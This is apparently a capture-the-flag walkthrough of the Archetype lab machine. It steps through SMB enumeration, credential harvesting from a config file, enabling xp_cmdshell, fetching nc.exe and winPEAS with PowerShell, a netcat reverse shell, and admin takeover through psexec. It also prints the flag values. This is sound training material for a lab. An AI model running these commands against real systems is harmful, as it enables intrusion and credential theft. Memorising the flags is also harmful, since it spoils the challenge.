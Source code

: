 ![Archetype.jpg](/assets/Tier-2/Archetype/archetype.jpg)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.129.101.211
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.101.211
```

**Output**
```bash
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```


3. Explore SMB
```bash
┌──(root㉿kali)-[/home/kali]
└─| smbclient -L 10.129.101.211
```

**Output**
```bash
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.101.211 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
---
Next, connect to **backups**
```bash
┌──(root㉿kali)-[/home/kali]
└─| smbclient \\\\10.129.101.211\\backups
```
---
List files and get

```bash
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020   
  ..                                  D        0  Mon Jan 20 07:20:57 2020   
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020   
                                                                             
                5056511 blocks of size 4096. 2609323 blocks available
```

```bash
smb: \> get prod.dtsConfig
```



4. Show **prod.dtsConfig** file
```bash
┌──(root㉿est)-[/home/kali/Desktop/Archetype]
└─| cat prod.dtsConfig 
```
**Output**
```bash
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
```

* We get important information like username **ARCHETYPE\sql_svc** and password **M3g4c0rp123**



5. Connect to mssqlclient with credentials found

```bash
┌──(root㉿est)-[/home/kali]
└─| /usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.101.211 -windows-auth
```

6. Look all options
```bash
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```
---
Next, enable **xp_cmdshell** and **RECONFIGURE** file
```bash
SQL> enable_xp_cmdshell
SQL> RECONFIGURE
```

7. Download two tools **nc.exe** and **winPEAS**
+ **nc.exe**: https://github.com/int0x33/nc.exe/
+ **winPEAS**: https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe


8. Create a server with Python in folder tools.
```bash
┌──(root㉿est)-[/home/kali/Desktop/Archetype]
└─| python3 -m http.server 80 
```

9.  Now go to download this files in directory with command **xp_cmdshell**
```bash
SQL> xp_cmdshell "powershell -c cd C:\Users\Public; wget http://10.10.14.251/nc.exe -outfile nc.exe"
```

```bash
SQL> xp_cmdshell "powershell -c cd C:\Users\Public; wget http://10.10.14.251/winPEASx64.exe -outfile winP.exe"
```

10. Now, with nc.exe in server execute a reverse shell.
    
First, listen in port 444
```bash
┌──(root㉿est)-[/home/kali/Desktop/Archetype]
└─| nc -lvnp 4444
```
---
Next, execute a command into SQL
```bash
SQL> xp_cmdshell "powershell -c cd C:\Users\Public; .\nc.exe -e cmd.exe 10.10.14.251 4444"
```
---
We obtain reverse shell
```bash
connect to [10.10.14.251] from (UNKNOWN) [10.129.101.211] 49678
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Public>
```

11. Execute winPEAS.exe to escalate privileges 

```bash
C:\Users\Public> .\winP.exe
```

**Output**
```bash
             *((,.,/((((((((((((((((((((/,  */                         
      ,/*,..*((((((((((((((((((((((((((((((((((,                       
    ,*/((((((((((((((((((/,  .*//((//**, .*(((((((*                    
    ((((((((((((((((**********/########## .(* ,(((((((                 
    (((((((((((/********************/####### .(. (((((((               
    ((((((..******************/@@@@@/***/###### ./(((((((              
    ,,....********************@@@@@@@@@@(***,#### .//((((((            
    , ,..********************/@@@@@%@@@@/********##((/ /((((           
    ..((###########*********/%@@@@@@@@@/************,,..((((           
    .(##################(/******/@@@@@/***************.. /((           
    .(#########################(/**********************..*((           
    .(##############################(/*****************.,(((           
    .(###################################(/************..(((           
    .(#######################################(*********..(((           
    .(#######(,.***.,(###################(..***.*******..(((           
    .(#######*(#####((##################((######/(*****..(((           
    .(###################(/***********(##############(...(((           
    .((#####################/*******(################.((((((           
    .(((############################################(..((((            
    ..(((##########################################(..(((((            
    ....((########################################( .(((((             
    ......((####################################( .((((((              
    (((((((((#################################(../((((((               
        (((((((((/##########################(/..((((((                 
              (((((((((/,.  ,*//////*,. ./(((((((((((((((.             
                 (((((((((((((((((((((((((((((/ 
                         ...

����������͹ Analyzing Windows Files Files (limit 70)
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt                                          
C:\Users\Default\NTUSER.DAT
C:\Users\sql_svc\NTUSER.DAT
```

12. Search in this paths
```cmd
C:\Users\Public>type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

**Output**
```cmd
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```


13. **User flag** is in path `C:\Users\sql_svc\Desktop`
```cmd
C:\Users\sql_svc\Desktop>type user.txt
type user.txt
3e7b102e78218e935bf3f4951fec21a3
```


14. With `/usr/bin/impacket-psexec` open a cmd with credentials found
* **username**: administrator
* **password**: MEGACORP_4dm1n!!
```bash
/usr/bin/impacket-psexec administrator@10.129.101.211
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:

```

**Output**
```cmd
C:\Windows\system32>
```

15. Flag is in path `C:\Users\Administrator\Desktop`
```cmd
C:\Users\Administrator\Desktop> type root.txt
b91ccec3305e98240082d4474b848528
```